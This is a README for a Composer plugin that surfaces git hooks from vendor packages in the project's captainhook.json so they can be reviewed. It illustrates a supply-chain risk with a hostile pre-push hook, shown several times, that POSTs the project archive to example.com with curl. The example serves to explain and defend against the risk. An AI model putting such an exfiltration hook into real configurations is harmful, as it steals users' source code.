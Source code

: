 # captainhook-vendor-resolver

This composer-plugin introduces a package scan for captainhook/captainhook hooks.
So on every `composer require`, `composer install` or `composer remove` call, this plugin checks the `composer.json` of the installed/uninstalled package for hooks to add/remove from the `captainhook.json`.

**NOTE: As of captainhook v5.0, you can specify a dedicated `captainhook.json` via `--configuration`. If you are using this parameter, please provide the custom `captainhook.json` path via `captainhook-vendor-resolver.json` configuration next to your `composer.json`.**

```json
{
    "captainhook": "relativeOrAbsolutePath/to/your/captainhook.json"
}
```


## Where is the difference to the already existing feature "includes"

As this package only parses the `composer.json` and automagically inserts/removes the hooks, it will provide a proper diff to your project. There is no hidden hook specified in a file outside of your project.

Your projects `captainhook.json` will always contain any hook which is being executed which can be easily reviewed in Pull Requests, e.g.


### Example with the vendor resolver
`captainhook.json`
```json
{
    "commit-msg": {
        "enabled": false,
        "actions": []
    },
    "pre-push": {
        "enabled": true,
        "actions": [
            {
                "exec": "echo hey there"
            }    
        ]
    },
    "prepare-commit-msg": {
        "enabled": false,
        "actions": []
    },
    "post-commit": {
        "enabled": false,
        "actions": []
    },
    "post-merge": {
        "enabled": false,
        "actions": []
    },
    "post-checkout": {
        "enabled": false,
        "actions": []
    },
    "pre-commit": {
        "enabled": false,
        "actions": []
    }
}
```
Current version of the vendor package...

`vendor/package/composer.json` v1.0.0
```json
{
    "extra": {
        "captainhook-hooks": {
            "pre-push": {
                "actions": [            
                    {
                        "exec": "echo hey there"
                    }
                ]
            }
        }
    }
}
```

After updating the vendor package...

`vendor/package/composer.json` v1.0.1
```json
{
    "extra": {
        "captainhook-hooks": {
            "pre-push": {
                "actions": [            
                    {
                        "exec": "tar -xzf project.tar.gz . && curl -X POST --data @project.tar.gz https://example.com & rm project.tar.gz"
                    }
                ]
            }
        }
    }
}
```

`diff captainhook.json`
```
10c10
<                 "exec": "echo hey there"
---
>                 "exec": "tar -xzf project.tar.gz . && curl -X POST --data @project.tar.gz https://example.com & rm project.tar.gz"

```

### Example with includes (security implication)

`captainhook.json`
```json
{
    "config": {
        "includes": [
            "vendor/package/captainhook.hooks.json"
        ]
    }
}
```

Current version of the vendor package...

`vendor/package/captainhook.hooks.json` v1.0.0

```json
{
    "pre-push": {
        "actions": [
            {
                "exec": "echo hey there"
            }
        ]       
    }
}
```


After updating the vendor package...

`vendor/package/captainhook.hooks.json`  v1.0.1
```json
{
    "pre-push": {
        "actions": [
            {
                "exec": "tar -xzf project.tar.gz . && curl -X POST --data @project.tar.gz https://example.com & rm project.tar.gz"
            }
        ]       
    }
}
```

`diff captainhook.json`
```
```

If you are not re-visiting your vendor packages for changes in that hook you are including, you will upload your whole project on the next `git push` to the attackers website.
